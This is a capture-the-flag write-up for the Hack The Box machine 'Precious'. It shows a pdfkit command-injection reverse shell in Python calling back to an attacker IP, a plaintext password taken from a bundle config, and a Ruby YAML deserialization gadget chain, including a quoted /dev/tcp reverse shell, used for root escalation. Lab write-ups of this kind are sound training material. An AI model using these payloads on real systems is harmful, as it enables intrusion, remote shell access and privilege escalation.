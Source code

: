 # Precious - HTB(Easy)
## Itay Nafrin | November 28th, 2022

## IP = 10.129.99.202

### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumeration

Well, we don't have a lot but we do have a input bar so lets start inputing stuff. 
After a long time I just started to type the starting of the http because nothing went up when I didn't, I thought maybe you need that 'http://' prefix so I type 'http://' ' and a PDF file downloaded, when I opened it nothing was shown I thought to myself maybe I can find a creater or something intersting, so I type this command:
`exiftool jpy716xrkbnwpedu2rysu4g4jdethk8k.pdf`
The results were interesting:
```
ExifTool Version Number         : 12.44
File Name                       : jpy716xrkbnwpedu2rysu4g4jdethk8k.pdf
Directory                       : .
File Size                       : 4.6 kB
File Modification Date/Time     : 2022:12:17 12:04:10-05:00
File Access Date/Time           : 2022:12:17 12:04:17-05:00
File Inode Change Date/Time     : 2022:12:17 12:05:18-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
Didn't get a name but got a version <b>pdfkit v0.8.6</b> now we can work with something.
So I searched for a pdfkit v0.8.6 exploit and stumbled upon a Command Injection vulnerabilty for pdfkit <0.8.7. 
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
<b>Overview:</b>
Affected versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

<b>Execution</b>
```
http://10.10.11.189/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.120",5001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

before submitting of course tpye the a netcat listener:
`nc -lnvp 5001`

After submission you'll get a reverse shell.

```
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Dec 17 15:30 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Dec 17 15:30 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~/.bundle$ cat config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
When enumeration a little bit you can find in the `ruby` user directory you can see an uncommon folder called `.bundle` in there you can find the `henry` users password.

```
henry@precious:~$ cat user.txt
dd5760930daa63d439358a3d7507f482
```

When enumeration in and typing `sudo -l` you can see:

```
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

When entering the file you can see:

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

```

Firstly, this is not a fixed path meaning you can run the program form wherever and if the `dependencies.yml` exists it will execute, Second when printing:

```
henry@precious:/opt/sample$ cat dependencies.yml 
yaml: 0.1.1
pdfkit: 0.8.6

```
you can see the yaml version, and Third and last if you know a little bit of programming you'll know that the command `YAML.load` is a bad file and not safe.
So when searching a little bit on the internet the yaml version seems to be pointless, but when searching creativly like 'yaml ruby exploit' you get a lot of answers, when entering the Colin McQueen bolg https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/ you can see he used an exploit to `YAML.load()` which we have in our program. 
the exploit he created is the following:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/reverseshell.stratumsecurity.com/443 0>&1'"
         method_id: :resolve

```

Now change the reverse shell he generate to a `bash -p` because we're running as sudo meaning if you run bash as sudo you'll get a bash shell.
The exploit:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -p"
         method_id: :resolve

``` 

Now when we have the exploit we just need to add it to a new file called `dependencies.yml` and run the sudo command reltivly to the file we create.

```
henry@precious:/dev/shm$ nano dependencies.yml                          
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/dev/shm# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
root@precious:/dev/shm#

```

Firstly Change your directory to a writalbe directory like /dev/shm after the create a `dependencies.yml` insert the exploit and run the sudo command, and you get root!

```
root@precious:~# cat root.txt 
e152d3c061b83a3b0f56d17cf73069fc

```
